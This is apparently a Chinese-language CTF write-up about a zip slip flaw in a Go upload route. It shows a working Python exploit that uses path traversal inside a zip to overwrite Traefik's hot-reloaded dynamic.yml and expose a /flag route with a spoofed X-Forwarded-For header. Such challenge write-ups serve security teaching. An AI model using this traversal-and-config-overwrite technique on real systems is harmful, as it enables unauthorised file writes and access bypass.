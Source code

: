 # 任意文件写
/public/uplaod路由可以解压上传的zip文件，解压时文件名直接拼接，存在zip slip漏洞。
```go
for _, file := range zipReader.File {
  filePath := filepath.Join(destDir, file.Name)
```

ctf用户对/app/.config/dynamic.yml文件可写，可以覆盖配置文件。

# traefik热加载
traefik有两个配置文件，一个为静态的 需要重启才能加载更改，而dynamic.yml可以热加载。

文档：https://doc.traefik.io/traefik/getting-started/configuration-overview/
> The dynamic configuration contains everything that defines how the requests are handled by your system. This configuration can change and is seamlessly hot-reloaded, without any request interruption or connection loss.

/traefik/yml指定了动态配置文件的路径。动态配置可以更改路由。

添加一个flag路由即可访问/flag，顺便加一个添加X-Forward-For的中间件。

# 利用
```python
import requests
import zipfile
import os
import time

payload = '''
# Dynamic configuration

http:
  services:
    proxy:
      loadBalancer:
        servers:
          - url: "http://127.0.0.1:8080"

  middlewares:
    addHeader:
      headers:
        customRequestHeaders:
          X-Forwarded-For: "127.0.0.1"

  routers:
    index:
      rule: Path(`/public/index`)
      entrypoints: [web]
      service: proxy
    upload:
      rule: Path(`/public/upload`)
      entrypoints: [web]
      service: proxy
    flag:
      rule: Path(`/flag`)
      entrypoints: [web]
      service: proxy
      middlewares: 
        - "addHeader"
'''

with open('./dynamic.yml', 'w') as f:
    f.write(payload)

zipFile = zipfile.ZipFile("poc.zip", "a", zipfile.ZIP_DEFLATED)
info = zipfile.ZipInfo("poc.zip")
zipFile.write("./dynamic.yml", "../../../../../../../../../../app/.config/dynamic.yml", zipfile.ZIP_DEFLATED)
zipFile.close()

url = 'http://ip:port'

files = {
    'file' : open('./poc.zip', 'rb')
}

res = requests.post(url=url + '/public/upload', files=files)
print(res.text)

files['file'].close()
os.remove('./poc.zip')
os.remove('./dynamic.yml')

time.sleep(3)    # 等待热加载完成

flag = requests.get(url=url + '/flag')
print(flag.text)
```          